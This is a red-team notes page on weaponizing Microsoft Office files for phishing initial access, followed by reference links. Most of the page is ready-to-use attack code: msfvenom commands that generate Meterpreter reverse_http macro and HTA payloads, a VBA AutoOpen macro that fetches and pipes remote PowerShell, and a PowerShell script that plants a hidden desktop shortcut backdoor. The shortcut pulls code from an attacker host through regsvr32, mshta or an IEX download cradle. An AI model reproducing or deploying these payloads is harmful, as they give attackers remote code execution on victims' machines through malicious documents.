 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - phishing
  - T1137
---
```

# Manual

TODO: Fill in the info

```
$ unzip file.doc
```

## 01 - Use Cases

Refer to the [[Microsoft Office Macros|microsoft office macros]] malware development section.

### 1.1 - VBA Macro

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f vba-psh -o macro.vbs

$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f vba -o macro.vbs
```

### 1.2 - HTA Callback Shell

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f hta-psh -o hta-payload.hta
```

### 1.3 - Shortcut Link

`$ cat macro.vbs`

---

```vbscript
Sub AutoOpen()
    Shell("powershell -c ""(Invoke-WebRequest ""http://<IP>/pwsh_cmds.txt"").Content | powershell"" ")
End Sub
```


> [!NOTE] Shortcut `.lnk` Character Limit
> The TargetPath has a limit of 260 characters long

`$ cat pwsh_cmds.txt`

---

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)

## Scriptlet files .sct
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll'

# For HTA files
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = 'http://<IP>/shell.hta'

# For conhost.exe and powershell one-liner
# $Shortcut.TargetPath = 'cmd'
# $Shortcut.Arguments = "/c `"powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
attrib +h $shortcutPath
```

```
$ sudo python -m http.server [-d /path/to/directory/] 80
```

---
## References

### Filesec

#### Word

- [Filesec: `.asd`](https://filesec.io/asd)

- [Filesec: `.doc`](https://filesec.io/doc)

- [Filesec: `.docm`](https://filesec.io/docm)

- [Filesec: `.dot`](https://filesec.io/dot)

- [Filesec: `.wbk`](https://filesec.io/wbk)

### Excel

- [Filesec: `.xls`](https://filesec.io/xls)

- [Filesec: `.xlsb`](https://filesec.io/xlsb)

- [Filesec: `.xlsm`](https://filesec.io/xlsm)

- [Filesec: `.xlm`](https://filesec.io/xlm)

- [Filesec: `.xlam`](https://filesec.io/xlam)

- [Filesec: `.xlt`](https://filesec.io/xlt)

- [Filesec: `.xltm`](https://filesec.io/xltm)

- [Filesec: `.slk`](https://filesec.io/slk)

#### PowerPoint

- [Filesec: `.pot`](https://filesec.io/pot)

- [Filesec: `.potm`](https://filesec.io/potm)

- [Filesec: `.pps`](https://filesec.io/pps)

- [Filesec: `ppsm`](https://filesec.io/ppsm)

- [Filesec: `.ppt`](https://filesec.io/ppt)

- [Filesec: `pptm`](https://filesec.io/pptm)

- [Filesec: `.sldm`](https://filesec.io/sldm)

#### Publisher

- [Filesec: `.pub`](https://filesec.io/pub)

### Red Team Notes

- [Red Team Notes: Phishing - Office Macros](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/t1137-office-vba-macros)

### Hacktricks

- [Hacktricks: Phishing Files and Documents](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/phishing-methodology/phishing-documents.html)

### Hacking Articles

- [Hacking Articles: Multiple Ways to Exploit Windows Systems using Macros](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)

### Bank Security

- [Bank Security: MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

### mgeeky

- [mgeeky: Various Macros-Based RCEs](https://gist.github.com/mgeeky/9dee0ac86c65cdd9cb5a2f64cef51991)

### Black Hills Information Security

- [Black Hills Information Security: Click to Enable Content](https://www.blackhillsinfosec.com/click-to-enable-content/)

- [Black Hills Information Security: Phishing with PowerPoint](https://www.blackhillsinfosec.com/phishing-with-powerpoint/)